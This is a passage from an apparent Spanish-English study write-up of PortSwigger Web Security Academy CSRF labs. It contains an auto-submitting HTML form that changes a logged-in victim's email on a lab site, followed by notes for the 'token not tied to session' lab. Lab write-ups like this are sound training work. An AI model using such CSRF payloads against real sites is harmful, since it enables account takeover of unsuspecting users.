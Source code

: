 - Injection

```html
<form class="login-form" name="change-email-form" action="https://0a3300e0032239808045123400680052.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwnd@pwnd.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

## CSRF con token no vinculado a la sesión || CSRF where token is not tied to user session

![](/img2/Pasted%20image%2020250730222440.png)

> Para tener las dos sesiones iniciadas, es necesario usar dos navegadores distintos, ya que sino se estaría arrastrando la cookie de sesión.

![](/img2/Pasted%20image%2020250730222715.png)
